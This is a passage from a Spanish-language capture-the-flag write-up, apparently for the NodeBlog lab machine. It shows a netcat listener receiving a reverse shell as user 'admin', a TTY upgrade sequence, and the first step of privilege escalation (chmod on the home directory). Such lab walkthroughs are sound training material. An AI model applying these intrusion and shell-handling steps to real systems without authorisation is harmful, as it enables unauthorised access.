 `Recibimos` la `shell`

```
# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.178.26] 57026
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$ whoami
whoami
admin
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation

No nos deja entrar al directorio `/home` por `falta` de `permisos`, sin embargo como es nuestro directorio podemos `darle` los `permisos` que queramos

```
admin@nodeblog:/home$ ls -l
ls -l
total 0
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
admin@nodeblog:/home$ chmod 755 admin
chmod 755 admin
```
